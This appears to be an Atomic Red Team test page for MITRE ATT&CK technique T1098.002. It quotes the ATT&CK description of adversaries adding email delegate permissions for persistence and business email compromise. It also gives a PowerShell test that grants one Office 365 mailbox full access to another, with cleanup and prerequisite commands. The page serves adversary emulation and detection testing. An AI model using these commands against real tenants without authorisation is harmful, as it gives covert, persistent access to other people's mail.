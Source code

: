 # T1098.002 - Account Manipulation: Additional Email Delegate Permissions
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1098/002)
<blockquote>

Adversaries may grant additional permission levels to maintain persistent access to an adversary-controlled email account. 

For example, the <code>Add-MailboxPermission</code> [PowerShell](https://attack.mitre.org/techniques/T1059/001) cmdlet, available in on-premises Exchange and in the cloud-based service Office 365, adds permissions to a mailbox.(Citation: Microsoft - Add-MailboxPermission)(Citation: FireEye APT35 2018)(Citation: Crowdstrike Hiding in Plain Sight 2018) In Google Workspace, delegation can be enabled via the Google Admin console and users can delegate accounts via their Gmail settings.(Citation: Gmail Delegation)(Citation: Google Ensuring Your Information is Safe) 

Adversaries may also assign mailbox folder permissions through individual folder permissions or roles. In Office 365 environments, adversaries may assign the Default or Anonymous user permissions or roles to the Top of Information Store (root), Inbox, or other mailbox folders. By assigning one or both user permissions to a folder, the adversary can utilize any other account in the tenant to maintain persistence to the target user’s mail folders.(Citation: Mandiant Defend UNC2452 White Paper)

This may be used in persistent threat incidents as well as BEC (Business Email Compromise) incidents where an adversary can add [Additional Cloud Roles](https://attack.mitre.org/techniques/T1098/003) to the accounts they wish to compromise. This may further enable use of additional techniques for gaining access to systems. For example, compromised business accounts are often used to send messages to other accounts in the network of the target business while creating inbox rules (ex: [Internal Spearphishing](https://attack.mitre.org/techniques/T1534)), so the messages evade spam/phishing detection mechanisms.(Citation: Bienstock, D. - Defending O365 - 2019)

</blockquote>

## Atomic Tests

- [Atomic Test #1 - EXO - Full access mailbox permission granted to a user](#atomic-test-1---exo---full-access-mailbox-permission-granted-to-a-user)


<br/>

## Atomic Test #1 - EXO - Full access mailbox permission granted to a user
Give a nominated user, full mailbox delegation access of another user.
This can be used by an adversary to maintain persistent access to a target's mailbox in M365.

**Supported Platforms:** Office-365


**auto_generated_guid:** 17d046be-fdd0-4cbb-b5c7-55c85d9d0714





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| username | office-365 username | string | o365_user_test@contoso.com|
| password | office-365 password | string | o365_password_test|
| delegate_target | office-365 target_email | string | delegate@contoso.com|
| operator_mailbox | office-365 target_email | string | operator@contoso.com|


#### Attack Commands: Run with `powershell`! 


```powershell
Import-Module ExchangeOnlineManagement
$secure_pwd = "#{password}" | ConvertTo-SecureString -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential -ArgumentList "#{username}", $secure_pwd
Connect-ExchangeOnline -Credential $creds
Add-MailboxPermission -Identity "#{delegate_target}" -User "#{operator_mailbox}" -AccessRights FullAccess -InheritanceType All
Disconnect-ExchangeOnline -Confirm:$false
```

#### Cleanup Commands:
```powershell
Import-Module ExchangeOnlineManagement
$secure_pwd = "#{password}" | ConvertTo-SecureString -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential -ArgumentList "#{username}", $secure_pwd
Connect-ExchangeOnline -Credential $creds
Remove-MailboxPermission -Identity "#{delegate_target}" -User "#{operator_mailbox}" -AccessRights FullAccess -InheritanceType All -Confirm:$false
Disconnect-ExchangeOnline -Confirm:$false
```



#### Dependencies:  Run with `powershell`!
##### Description: ExchangeOnlineManagement PowerShell module must be installed
##### Check Prereq Commands:
```powershell
$RequiredModule = Get-Module -Name ExchangeOnlineManagement -ListAvailable
if (-not $RequiredModule) {exit 1}
if (-not $RequiredModule.ExportedCommands['Connect-ExchangeOnline']) {exit 1} else {exit 0}
```
##### Get Prereq Commands:
```powershell
Install-Module -Name ExchangeOnlineManagement
```




<br/>
